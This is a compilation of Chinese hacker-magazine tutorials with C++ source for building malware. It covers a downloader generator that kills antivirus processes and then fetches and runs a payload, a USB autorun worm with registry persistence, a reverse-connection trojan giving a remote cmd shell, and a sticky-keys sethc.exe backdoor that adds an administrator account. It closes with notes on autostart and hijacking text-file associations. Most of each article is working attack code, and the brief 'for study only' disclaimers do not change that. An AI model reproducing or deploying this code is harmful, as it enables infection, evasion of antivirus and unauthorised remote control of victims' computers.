Downloader 本身不是病毒，只是在用户运行时自动从指定的网站上下载并运行目标程序。目标程序的功能是多种多样的，比如盗窃密码、破坏文件等。而我要写的制造机是让用户根据自己的需要配置 Downloader，也就是说从一个 EXE 文件（制造机）生成另一个 EXE 文件（Downloader）。下图是我编写的程序界面。

```cpp
// 如果进程名为“##########”，就终止此进程
// end if
while(Process32Next(hprocess,&pe32));   // 循环查找
// end if
URLDownloadToFile(0,"########################...",
"c:\\a.exe",0,0);   // 下载“######”文件并保存为 c:\a.exe
WinExec("c:\\a.exe",SW_SHOW);   // 运行刚下载的文件
exit(0);   // 退出
}
```



首先要编写 Downloader 程序。打开 VC++6.0，新建一个控制台程序，代码如下。

这个程序首先遍历所有进程，查找名为“######”的进程并终止它。“######”是杀毒软件的进程名，因为我们下载的文件大多是病毒木马，会被杀毒软件杀掉，所以我们要提前关闭杀毒软件，之后再下载指定的文件并运行。

将此程序编译连接成 EXE 文件（Downloader），然后新建一个 EXE 工程（制造机），将此 EXE 文件作为资源加入工程中。至于实现方法，在以前的黑防杂志上已经有过介绍。打开 UltraEdit32 载入 EXE 文件，找到“######”的位置，这里有 3 个，分别是 0x2001c（52 个 #）、0x2007c（15 个 #）和 0x20068（14 个 #）。再加入一个按钮控件，在单击事件中加入如下代码。

```cpp
#include <windows.h>
#include <Tlhelp32.h>
#pragma comment(lib,"Urlmon.lib")
void main()
{
    PROCESSENTRY32 pe32={0};
    pe32.dwSize=sizeof(PROCESSENTRY32);
    HANDLE hprocess=CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
    // 建立进程快照
    if(hprocess==INVALID_HANDLE_VALUE)
        exit(0);   // 如果失败就退出程序
    if(Process32First(hprocess,&pe32))
    {
        do{
            if(strstr(pe32.szExeFile,"############")||strstr(pe32.szExeFile,"############"))
            {
                HANDLE p=OpenProcess(PROCESS_ALL_ACCESS,FALSE,pe32.th32ProcessID);
                if(p)
                    TerminateProcess(p,0);
            }
        }while(Process32Next(hprocess,&pe32));
    }
}
```

```cpp
UpdateData(true);
CString sz1,sz2;
sz1=(((CButton*)(GetDlgItem(IDC_CHECK1)))->GetCheck()&1)?"360tray.exe":"";
// 判断选项是否被选
sz2=(((CButton*)(GetDlgItem(IDC_CHECK2)))->GetCheck()&1)?"KAVPF.exe":"";
// 判断选项是否被选
char url[52];
memset(url,0,52);
if(m_url=="")
{
    MessageBox("请填写病毒地址");
    return;
}
```

```cpp
sprintf(url,"%s",m_url);
HRSRC hres;
HGLOBAL hresdata;
DWORD dwsize,dwwritten;
LPBYTE p;
HANDLE hfile;
hres=FindResource(NULL,MAKEINTRESOURCE(IDR_EXE),"EXE");
// 查找资源
if(hres==NULL)
    return;
dwsize=SizeofResource(NULL,hres); // 资源大小
hresdata=LoadResource(NULL,hres); // 加载资源
if(hresdata==NULL)
    return;
p=(LPBYTE)GlobalAlloc(GPTR,dwsize);
if(p==NULL)
    return;
CopyMemory((LPVOID)p,(LPCVOID)LockResource(hresdata),dwsize);
CopyMemory((LPVOID)(p+0x2001c),(LPCVOID)url,52);
// 将用户输入的网址地址写入Downloader
if(sz1!="")
    CopyMemory((LPVOID)(p+0x2007c),(LPCVOID)sz1,15);
// 如果用户选择了选项，则将安全卫士的进程名写入Downloader
```

```cpp
if(sz2!="")
    CopyMemory((LPVOID)(p+0x20068),(LPCVOID)sz2,14);
// 如果用户选择了选项，则将卡巴防火墙的进程名写入Downloader
char path[256];
GetCurrentDirectory(256,path);
strcat(path,"\\down_loader.exe");
// 在程序目录下生成Downloader，名为down_loader.exe
DeleteFile(path);
hfile=CreateFile(path,GENERIC_WRITE,0,NULL,CREATE_ALWAYS,0,NULL);
if(hfile==NULL)
    return;
WriteFile(hfile,(LPVOID)p,dwsize,&dwwritten,NULL);
CloseHandle(hfile);
MessageBox(" 文件生成成功 ");
```

将以上代码编译连接生成 EXE，运行成功，经过我多次实践测试，没有出错。不过本人编程功力有限，程序中难免有误，还望各位大虾多多指教，欢迎到黑客防线论坛交流。我的 ID 是“暗夜舞者”。最后说明一点，本程序纯粹是给新手菜鸟提供编程思路，请不要用于不法途径。

【本文涉及的代码（程序），请见随书光盘】

## 自己编程抓“肉鸡”

文/图 冰海[LOVEGN]



现在国人的安全意识越来越高，黑客们再也不能像以前那样用 MS05-039 就能扫出一大堆有漏洞的电脑，再也不容易扫到空密码的 SQL 服务器了。即使是比较流行的注入入侵，现在也不那么好用了，很多网站都有了防注入保护……我今天教大家自己编程来抓“肉鸡”，通过分析、学习这些技术，更好地防范黑客入侵。

最近一直比较流行的就是 U 盘病毒，黑客们可以利用 U 盘病毒的特点来编写其程序。对此，我们进行一下分析。

首先我们需要对 Windows 操作系统的运行机制有个初步的了解。Windows 操作系统是基于消息来响应用户的操作，用户的任何一个操作都会产生相应的事件，例如鼠标单击，或者键盘按下等，这些事件都会被操作系统捕获，然后翻译成对应的消息，并将这些消息发送给相关联的应用程序；而应用程序也会对这些消息进行响应，产生不同的结果，这就是简单的消息机制。同样，U 盘的插拔也是一个事件，也会产生一个消息 WM_DEVICECHANGE，因此，要想编写 U 盘病毒，就需要在程序中对该消息进行响应。希望通过这篇文章，可以让大家对消息机制有个更深入的了解，只要是我们关心的消息，我们都可以在自己的程序中对其进行响应，从而达到自己的要求。

对于 Windows 程序的编写来说，其流程一般是定义窗口类、注册窗口类、创建窗口并显示窗口，最后也就是最重要的消息循环。不过对于本文来说，窗口并不是我们关心的重点，我们需要的是捕获感兴趣的消息。在这里我们有两种方法来截取消息：

- 一是通过编写 DLL 文件，安装系统钩子对所有的进程消息进行拦截，响应感兴趣的消息；
- 二是运用 wndclass 类定义窗口类，注册窗口类，创建窗口，编写自己的 Windows 程序，并在该程序中对特定的系统消息进行响应。

```cpp
COPY_TO_DRIVER();

HKEY hkey;
if(RegOpenKeyEx(HKEY_LOCAL_MACHINE,
"Software\\Microsoft\\Windows\\CurrentVersion\\Run",0,
KEY_ALL_ACCESS, &hkey) == ERROR_SUCCESS)
{
    RegSetValueEx(hkey,"Test",0,REG_SZ,(BYTE *)SystemPath,lstrlen(SystemPath));
    // 添加注册表启动项，使文件开机自启动
    RegCloseKey(hkey);
}
```

后台下载木马并运行的代码如下，程序不难，不过要记得包含 urlmon.h 头文件。

```cpp
void DownloadToRun(void)
{
    LoadLibrary("urlmon");
    URLDownloadToFile(NULL,"http://127.0.0.1/123.exe",
    "c:\\numa.exe",NULL,NULL);
    // 从远程电脑下载文件并保存到本地
    WinExec("c:\\numa.exe",0);
    // 执行本地文件
}
```

如果黑客编写的程序在运行中突然弹出一个窗口，这肯定会让人怀疑，所以必须隐藏这个窗口，因此，黑客还需要以隐藏的方式来显示窗口。第一种方法比较复杂，但可以减小程序的大小，它的编写也有相应的流程，不是很难；如果有机会下次再介绍。第二种方法虽然会增大程序的体积，但它可以让我们更好地了解 Windows 程序的结构，尽管产生的文件会大些，但这难不倒我们，只要对其再进行加壳压缩，所得到的文件大小完全会让我们满意的。

下面我们就正式开始编写“抓鸡”程序。Windows 程序的框架我已在源程序提供，这里我就不具体给出来了。首先描述一下程序的功能，以方便后面的实现。程序运行后，会在该路径下生成 Autorun.inf，并把自身和 Autorun.inf 复制到每个盘符，在后台下载木马程序后运行，并将自身拷贝到系统目录，修改注册表，使其可以在开机后自启动。当有 U 盘插入的时候，该程序将进行传播。

以下的代码用于产生 Autorun.inf 文件，很容易实现。同样要记得包含 afxwin.h 头文件。但由于 afxwin.h 中已包含有 windows.h 头文件，这会导致重复包含，所以我们要删掉“#include "windows.h"”这句代码。

主程序中的功能实现的部分代码如下。

```cpp
void COPY_TO_DRIVER(void)
{
    FileCreate();
    for(char i='A';i<='Z';i++) {
        char driver_1[5]={i,':'};
        char driver_2[5]={i,':'};
        if((GetDriveType(driver_1)==DRIVE_REMOVABLE)||
           (GetDriveType(driver_1)==DRIVE_FIXED))
        {
            strcat(driver_1,"\\autorun.inf");
            strcat(driver_2,"\\virus.exe");
            CopyFile("autorun.inf",driver_1,FALSE);
            CopyFile(CurrentFile,driver_2,FALSE);
            SetFileAttributes(driver_1,FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_HIDDEN);
            SetFileAttributes(driver_2,FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_HIDDEN);
        }
    }
}

BOOL FileCreate(void)
{
    FILE *fp;
    ...
}
```

```cpp
#define MAX_SIZE 100
char CurrentFile[MAX_SIZE];
// 全局变量保存本文件的名字
char SystemPath[MAX_SIZE];
// 全局变量保存系统的路径

DownloadToRun();
GetModuleFileName(NULL,CurrentFile,MAX_SIZE);
GetSystemDirectory(SystemPath,MAX_SIZE);
strcat(SystemPath,"\\usbvirus.exe");
CopyFile(CurrentFile, SystemPath, FALSE);
SetFileAttributes(SystemPath,FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_HIDDEN);
```

```c
fp = fopen("autorun.inf", "w");
fprintf(fp, "%s\n%s", "[AutoRun]", "shell\\open\\command=virus.exe");
fclose(fp);
return 1;
}
```

接下来我们要编写窗口处理函数 WndProc，让它对 WM_DEVICECHANGE 消息进行响应，我们用函数 COPY_TO_DRIVER(void) 来实现。

```c
#define DBT_DEVICEARRIVAL 0x8000
// 这个预定义必须有，在 WM_DeviceChange 消息中还有很多参数类型，例如设备插入、设备拔出等，
// 这些参数都会送给 wParam。0x8000 就是设备插入的标志号，用于对特定的消息进行区别
LRESULT CALLBACK WndProc(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    switch (uMsg)
    {
    case WM_DEVICECHANGE:
        {
            switch (wParam)
            {
            case DBT_DEVICEARRIVAL:
                COPY_TO_DRIVER();
                break;
            }
        }
        break;
    default:
        return DefWindowProc(hWnd, uMsg, wParam, lParam);
        // 将不关心的消息交给系统默认的窗口处理函数
    }
    return 1;
}
```

至此，程序就完整地编写成功了。当然，如果我们还要实现定时扫描，可以对 WM_TIMER 消息进行响应。我在源程序中将定时器定时的时间设为 6 秒，但具体功能没有实现，大家可以根据自己的情况编写自己的函数，不过这样会使占用的内存更大，所以要权衡处理，或者把定时时间设长些。

我们将以上代码编译、链接，生成可执行文件。看看文件大小，哇，96KB（如图1所示）！作为病毒确实很大了，那加壳后再看看，只有 4.5KB（如图2所示），该满意了吧？呵呵。

接下来，我们再在本机上进行调试，先运行 HTTP 傻瓜服务器，然后双击 TEST.exe，过一会程序就会在后台下载 123.exe 到 C 盘并保存为 muma.exe，之后会自动运行，如图3所示。

有了这个程序，黑客只需要在本地做一个运行后自删除的免杀木马就可以了，这样就可以抓到好多的“鸡”了。也许有人会问，这病毒是不是太明显啦？没关系，只要删了系统文件夹下的 virus.exe 文件不就行了？当然，本文只是做了一个测试，大家应该还会有自己的想法的，例如通过编程将注册表、任务管理器和 CMD 窗口都禁止，或者利用远程注入来保护病毒本身。

> 【本文涉及的代码（程序），请见随书光盘】

## 自己编程抓“肉鸡”

### ——将捕获消息进行到底

文／图 冰海 [LOVEGN]

上次编写的程序主要是截获 WM_DEVICECHANGE 消息实现功能，程序中是老老实实地创建了 Windows 窗口，但这个窗口其实我们并不需要，而且还会增大程序的体积，有没有办法不用创建窗口呢？大家还记得上次讲的截获消息的两种方法吧？一种是在本程序响应要捕捉的消息，这种方法比较简单，但不易传播；还有一种就是通过安装系统钩子捕获系统消息。钩子程序是在 DLL 中编写的，隐蔽性很好，而且黑客们也可以将其注入到其他的进程中，就算中毒电脑主人找到木马，由于正在运行的程序是无法删除的（必须先结束掉调用 DLL 的进程），因此可以避免被杀。

下面我们就来编写钩子程序，了解黑客是如何捕获消息的。首先我们需要对钩子程序运行过程有个大体的了解，Windows 的消息传递过程，正常的情况下是“操作系统->消息队列->应用程序->响应返回给用户”这样一个基本过程。如果我们编写了钩子程序，它就会在系统传递消息之前对消息队列中的消息进行捕获，并对其响应，也就是说它可以先于应用程序获得系统的控制权。

听到这里，大家应该对钩子的作用有个大概的了解了吧？还不清楚的话，可以去查看相关的资料。下面我们就一起来编写自己的钩子程序，如果大家是刚接触钩子程序也不必担心，在程序中我会加上详细的解释。现在开始对上次的程序进行改进，在钩子程序中对 WM_DEVICECHANGE 进行监听，如果有 U 盘插入，则将上次程序实现的功能记作函数“Void VIRUS(void)”，方便我们抓住主要矛盾，忽略次要矛盾，呵呵。

```cpp
#define DBT_DEVICEARRIVAL 0x8000
HHOOK hHook = NULL;   // 钩子句柄
HINSTANCE hinstance;  // 钩子所在的应用程序的句柄
BOOL InstallHook();
void EndHook(void);

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // DLL 加载时运行
        hinstance = (HINSTANCE)hModule;
        /* EndHook(); */   // 卸载钩子
        break;
    default:
        break;
    }
    return TRUE;
}

LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if (nCode == HC_ACTION)
    {
        PCWPSTRUCT msg = PCWPSTRUCT(lParam);
        // 截获 WM_DEVICECHANGE 消息，lParam 是指向 PCWPSTRUCT 结构体的指针
        if (msg->message == WM_DEVICECHANGE)
        {
            if (msg->wParam == DBT_DEVICEARRIVAL)
            {
                // VIRUS();
                // 自己要实现的功能，这里记得加上自己的代码
                MessageBox(NULL, "usb", "warn", MB_OK);
                // 这里截获消息框来做调试
            }
        }
    }
    LRESULT ret = CallNextHookEx(hHook, nCode, wParam, lParam);
    return ret;
}
```

```cpp
BOOL InstallHook()
{
    hHook = SetWindowsHookEx(WH_CALLWNDPROC, HookProc, hinstance, 0);
    // 安装 WH_CALLWNDPROC 类型的系统钩子
    return true;
}

void EndHook(void)
{
    UnhookWindowsHookEx(hHook); // 卸载钩子
}
```

这样，钩子程序就写完了，没有大家想象的难吧？细心的读者可能发现了，我在卸载钩子处加了注释符，也许在有的人的认知里有个定势，觉得用完了钩子就要卸载，这主要是根据需要来看。由于我们编写的钩子程序需要驻留在内存，一直对系统进行监听，如果在加载一次的时候就把它卸载了，就算程序在运行，那么下次也不会继续捕获我们需要的消息了，所以这里不要卸载钩子。

大家都知道 DLL 是不能直接运行的，需要程序将其加载进来，这样才能完整地实现功能，下面我们来看程序的加载。

```cpp
MSG msg;
HINSTANCE dllhinstance;
typedef BOOL (CALLBACK* INSTALLHOOK)(VOID);
// 定义函数指针，注意要与 DLL 文件中 InstallHook() 函数形式一样
INSTALLHOOK installhook;

// 我们需要在自己的程序中调用该函数
dllhinstance = LoadLibrary("HOOKDLL.dll");
// 加载动态链接库
if (dllhinstance != NULL)
{
    installhook = (INSTALLHOOK)GetProcAddress(dllhinstance, "InstallHook");
    // 获得动态链接库中 InstallHook() 函数的指针
    if (installhook != NULL)
        installhook(); // 安装钩子
}

while (GetMessage(&msg, 0, 0, 0))
// 消息循环
{
    TranslateMessage(&msg);
    DispatchMessage(&msg);
}
return true;
```

在上面的程序中，我们不再需要按照定义窗口类、注册窗口类、创建窗口、隐藏显示窗口的步骤来捕获消息，直接挂钩就可以代替那些繁琐的步骤，而且还对我们的程序进行了体积缩减，凭自己的能力再次让我们的程序获得新生。

至此，程序编写完成，下面我们一起来对其进行调试。在调试中，当 U 盘插入的时候会有很多的消息框弹出。右边的对话框其实是很多对话框的重叠，我一直点了 20 几次“确定”才真正关掉。

这主要是由于我们安装的是系统钩子，它会对发送到任何窗口的 WM_DEVICECHANGE 消息进行捕捉。在这里如果不想深入了解，解决的办法很简单，我们可以安装截获某个单窗口程序的钩子，并在钩子处理函数中添加一个全局变量来控制程序运行的次数，当其大于 1 的时候就不执行，记得将初始化变量哦。下面我们来修改程序，处理函数的修改比较简单，完整的程序我已打包，就不写出来占篇幅了，主要讲讲安装钩子函数的修改，代码如下。

```cpp
BOOL InstallHook()
{
    HWND hWnd = ::FindWindow("MSCTFIME UI", NULL);
    // 针对某个单窗口，大家可以用 Spy++ 查找窗口
    DWORD dwThreadId = 0;
    if (hWnd != NULL)
    {
        dwThreadId = ::GetWindowThreadProcessId(hWnd, &dwThreadId);
    }

    if (dwThreadId != 0)
    {
        hHook = SetWindowsHookEx(WH_CALLWNDPROC, HookProc, hModule, dwThreadId);
        if (hHook == NULL || hWnd == NULL)
        {
            MessageBox(NULL, "Hook Failed!", "Hook Message", MB_OK);
            return false;
        }
    }

    MessageBox(NULL, "Hook Succeed!", "Hook Message", MB_OK);
    return true;
}
```

我们再运行一遍程序，这次只点击了一下“确定”，对话框就关闭了。呵呵，终于成功了！

【本文涉及的代码（程序），请见随书光盘】

socket：反向连接的木马大家应该很熟悉了吧？你知道它是怎么编写的吗？

### 基于反向连接的木马编写思路

○ 文／Seven

传统的木马，通常做法是服务端侦听、客户端连接，而反向连接技术恰恰相反，采用的是客户端侦听、服务端连接的思路。传统木马的服务端需要在某一端口侦听，很容易被发现，而采取反向连接技术之后，服务端主动去连接客户端，并且如果客户端的侦听端口类似 21、80 的很有迷惑性的端口，很多人都会以为这是正常的访问而不去关注，从而达到了隐藏木马、后门的目的。

反向连接的实现除了服务端和客户端之外，还需要第三者的介入，而这个第三者必须是服务端和客户端都能方便地访问到，例如一个文件。并且很重要的一点是客户端需要能建立、修改这个文件，比如某个公共、私有 FTP 空间上的文件。

- 1. 客户端把自己的 IP 和端口号上传到约定好的文件。
- 2. 服务端读取文件。
- 3. 服务端根据读取到的 IP 和端口号主动连接客户端。

#### 服务端实现

- （1）木马的服务端不是由客户端生成，配置信息（告诉客户端从哪里读取关于客户端的 IP 和端口号）直接放在一个配置文件里而没有写入到服务器端程序中，关键是读取配置信息的代码了：

```cpp
BOOL ret=FALSE;
FILE *fp;
char url[512];
fp=fopen("URL.INI","r");
if(fp)
{
    url[0]=0;
    fscanf(fp,"%s",url);
    if(url[0]!=0)
    {
        ServerURL.Format("%s",url);
        ret=TRUE;
    }
    fclose(fp);
}
return ret;
```

```cpp
ServerURL.Format("%s",url);
ret=TRUE;
...
fclose(fp);
return ret;
```

- 2. 得到配置信息后，服务端要到网上去读取客户端的 IP 和 PORT，格式为 IP:PORT。
- 3. 服务端得到 IP 和 PORT 后，主动去连接客户端，这样的代码没什么难度。

```cpp
CSocket sockClient;
sockClient.Create();
if(sockClient.Connect(ip, port)) // 反向连接
{
    // 绑定 cmd
}
sockClient.Close();
```

- （4）既然是木马，就要绑定 cmd 了，否则什么都干不了。详细代码请查看光盘，按照文章名查找即可。

#### 客户端实现

客户端其实就是在本地的某个端口侦听服务端发来的连接请求，如果有连接的话就可以运行命令了，具体步骤如下。

- 1. 监听代码（注意：为了不使程序的界面“没响应”，监听的代码要放到一个新线程里）。
- 2. 发送命令代码。

```cpp
UpdateData();
char* temp="\r\n";
LPCSTR szData=(LPCSTR)m_strCommand;
send(sClient,szData,strlen(szData),0);
Sleep(50);
send(sClient,temp,strlen(temp),0);
m_strCommand="";
UpdateData(FALSE);
```

注意这里为什么要 Send 一个“\r\n”呢？那是因为这里的命令是给 cmd 运行的，而 cmd 是以“\r\n”来判断一个命令结束的，所以我们要在命令后面把它发过去。

上面的代码是实现运行服务器端后每隔 10 分钟到指定的地方去读取要连接的 IP 和 PORT，然后反向连接到客户端（为了简单起见，每个服务器只会连接一个客户端，每个客户端也只能接受一个服务器端），客户端可以直接运行 cmd 里面的命令，直到输入 exit 命令退出。是不是比你想象中要简单很多？编程其实很简单，只要你看懂了具体代码，一切都很轻松！

## 3389后门自己造

文/图 天涯浪人

在攻破一台主机系统后，最重要的一件事就是安装后门，以便黑客能够再次进来。当黑客成功进入一台开了 Windows 远程登录服务的机器后，多半会留一个隐藏账号，或者是把 Guest 克隆为管理员，再不就是安装一个后门。但克隆账号用得太多了，现在已经不好用了，有安全意识的管理员在察觉系统可能出了问题后，都会检查系统账号的安全性。而且，现在杀毒软件和防火墙功能越来越强，后门想要不被查出来也比较难，除非是 Rootkit 级的后门。

前几天看到一篇介绍利用 Windows 粘滞键做后门的文章，原理就是连续按 5 次 Shift 键，会触发粘滞键设置程序 SETHC.EXE。用 3389 远程桌面连接器连接主机时，在未登录的情况下，也可以触发粘滞键设置程序 SETHC.EXE。如果 SETHC.EXE 被替换为 CMD.EXE 或是我们的后门程序，那么就可以在目标机器上开启一个 Shell 或运行我们的后门了。

基于上面的考虑，加上对后门程序隐藏性的要求，可以利用 Windows 的这个漏洞来编写一个简单的后门程序。我们先看一下 Windows XP 下的这个程序。从 System32 下复制一个 SETHC.EXE 出来，直接运行，没有反应。用 ResHacker 查看一下，发现只有一个空对话框，显示的信息都是程序里的字串；查看字串发现 SETHC.EXE 可以用多种方式激活，对应多种系统设置，像筛选键、鼠标键、切换键等，如持续按下 NUM LOCK 键 5 秒就可以启用 ToggleKeys 键设置，对应的程序也是 SETHC.EXE。

这样，我们就有了写一个后门的思路：在安装时替换目标系统的 SETHC.EXE，平时隐藏在系统中并不运行，这样便减少了被发现的概率；并且程序运行时，伪装成正常程序的界面，程序经过特定的操作才会露出后门的原形，输入正确的密码后，才能进入到后门的界面。先给大家看一下写完的后门运行时的截图，如图1所示。

程序运行时的外观和正常程序完全一样，为了使管理员打开粘滞键设置时后门不被发现，点击“确定”和“退出”时会和正常程序一样关闭窗口。当先点击“设置”再点击“退出”时，才会在窗口上出现一个输入框，输入正确的密码后点击“设置”就可以打开后门的设置界面了，如图2和图3所示。

图2

```cpp
Dialog.DoModal();
// 设置对话框
}
else
{
    MessageBox("密码错误");
}
}
else
{
    ID2=true;
    // 没点击退出时 ID2 赋 TRUE
}
}
```

图3

下面我们就来编写这个小程序。由于这里只是简单介绍这种后门的思路，所以只写了两个简单的功能：添加一个系统账号和开启一个 CMDShell。大家可能想到，在 Shell 里用命令添加不就行了，但这里不是调用系统命令实现的，而是直接调用系统 API 函数实现，以防止管理员禁用了 CMD.EXE 而使后门不能正常工作。好了，不多说了，还是直接看代码吧。

打开 VC6.0，新建一个对话框工程，按照上面的截图做好程序界面，并导入一个对话框，在建立类向导中添加 CsetDialog 类。为了实现程序隐蔽性，先单击“设置”再单击“退出”才会有反应，所以这里的 EDIT 控件用动态创建的方法实现。

“退出”按钮的单击响应代码如下。

```cpp
// CDialog::OnCancel();
if(ID2)
{
    ID = true;
    // 动态创建 EDIT 控件
    m_MyEdit.CreateEx(WS_EX_CLIENTEDGE,
    // 3D-border 外观
    _T("EDIT"),
    NULL,
    ES_AUTOHSCROLL | ES_LEFT | ES_NOHIDESEL |
    WS_CHILD,
    CRect(280,80,350,100), this,
    ID_EDIT);
    // 生成 edit 控件
    m_MyEdit.ShowWindow(SW_SHOW);
    // 显示控件
    m_MyEdit.SetFocus();
    // 设置焦点
}
else
{
    CDialog::OnCancel();
    // 没有点击过设置按钮，程序直接退出
}
```

```cpp
// 先定义三个变量
CEdit m_MyEdit;
// 用来动态创建 EDIT 控件
BOOL ID;
BOOL ID2;
```

设置按钮的单击响应代码如下。

```cpp
void CSethe_doorDlg::OnSet()
{
    // TODO: Add your control notification handler code here
    // UpdateData(true);
    char pass[16];
    if(ID)
    {
        // 单击退出时 ID 赋 TRUE
    }
    GetDlgItem(ID_EDIT)->GetWindowText(pass,16);
    if(strcmp(passwd,pass)==0)
    // 进入后门时的密码验证
    {
        CSetDialog Dialog;
```

输入正确的密码后就可以进入后门功能界面了。按照图3在对话框上设置好控件的位置，要得到一个本地的 CMDShell 比较容易。

```cpp
void CSetDialog::OnCmd()
{
    // TODO: Add your control notification handler code here
    WinExec("cmd.exe",SW_SHOW);
    // 在3389窗口创建一个 CMD 进程
}
```

添加一个管理员权限账号，实现代码如下。

```cpp
void CSetDialog::OnAdduser()
{
    // TODO: Add your control notification handler code here
}
```

## 木马后门类

```cpp
// UpdateData(true);
USER_INFO_1 ui;
DWORD dwError = 0;
ui.usri1_name = L"tianya";          // 添加的账号
ui.usri1_password = L"tianya";      // 添加的密码
ui.usri1_priv = USER_PRIV_USER;
ui.usri1_home_dir = NULL;
ui.usri1_comment = NULL;
ui.usri1_flags = UF_SCRIPT;
ui.usri1_script_path = NULL;
if(NetUserAdd(NULL, 1, (LPBYTE)&ui, &dwError) == NERR_Success)
{
    MessageBox("添加用户成功!\n");
}
else
{
    MessageBox("添加用户失败!\n");
}

wchar_t szAccountName[100]={0};
wcscpy(szAccountName,L"tianya");
LOCALGROUP_MEMBERS_INFO_3 account;
account.lgrmi3_domainandname=szAccountName;

if(NetLocalGroupAddMembers(NULL,L"Administrators",3,(LPBYTE)&account,1) == NERR_Success)
{
    MessageBox("添加到管理员组成功!\n");
}
else
{
    MessageBox("添加到管理员组失败!\n");
}
```

换一下就可以了。接下来就是后门的安装了，由于程序是替换系统程序工作的，所以安装时要通过系统文件保护这一关。这里不是程序的重点，安装就用简单的系统命令替换吧：“copy sethc_door.exe c:\windows\system32\dllcache\sethc.exe&copy sethc_door.exe c:\windows\system32\sethc.exe”。在 Windows 2003 上的测试结果如图4所示。

图4

觉得简单呢？这个后门利用的是 Windows 漏洞，所以通用性很强，甚至在最新的 Vista 系统里也有这个漏洞。不过这里有一点要指出来，就是要启动后门需要一个 3389 登录时的界面，或者是能接触到物理主机。这样，只要按下 5 次 Shift，或是持续按下 NUM LOCK 键 5 秒就可以启动后门了。当然，程序的功能比较简单，如果读者朋友有兴趣的话，可以自己修改代码，加入想要的功能。这里多说几句，以上文章仅做学习之用，请勿用于非法用途，本人无法保证以上代码或程序不会对您的系统造成损害，请使用者自己承担一切后果，否则请勿尝试运行！

> 【本文涉及的代码（程序），请见随书光盘】///D

至此，简单的粘滞键后门就初步完成了。现在，只有程序的版本信息和图标还没有改了，图标直接在工程里替换就行了，版本信息用 ResHacker 替……

### 编程实现：修改注册表完成程序自启动

无论是病毒还是木马程序的编制，都常常会碰到如何在系统启动时自动运行自己的程序的问题。这里我结合自己的经验来说一谈程序的自动加载技术，顺便也说说程序的自拷贝，也就是将自身复制到系统目录下。通常在 Windows 系统中，程序自动启动的方法有两种：

- 一是利用修改 Win.ini 和 System.ini 等文件的数据段的方法，本文就不详细说了；
- 二是使用修改注册表的方法，下面来详细介绍一下。

在 Windows 2000 计算机的系统注册表中，我们通过主键目录 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 中添加新的键值，就可以让程序在系统启动的过程中自动启动。这里我们将要介绍的是如何在程序中实现这种方法。

无论对于病毒还是木马，仅仅有自动加载的功能是不够的，如果启动起来进程一旦被系统关掉，还必须通过某种方式重新启动程序，这里我要谈到的是程序的自动关联技术，可以将我们的程序与常用的程序关联，比如与文本文件关联，这样当用户每次试图打开文本文件的时候，就会将我们的程序打开。这种方法也是通过修改注册表的方法进行关联，可以修改注册表的 HKEY_CLASSES_ROOT\txtfile\shell\open\command 下的默认键值来达到关联的目的。

还有一点，也是经常采用的技术。我们的程序第一次运行的时候，最好能将自身复制到 Windows 的系统目录中，这里我们使用了 CopyFile() 函数。复制的过程中为了使得我们的程序更具有隐蔽性，没有采用原来的名字，而是改成了一个与某些系统文件貌似的文件名称，也就是木马常常使用的伪隐藏的方法。

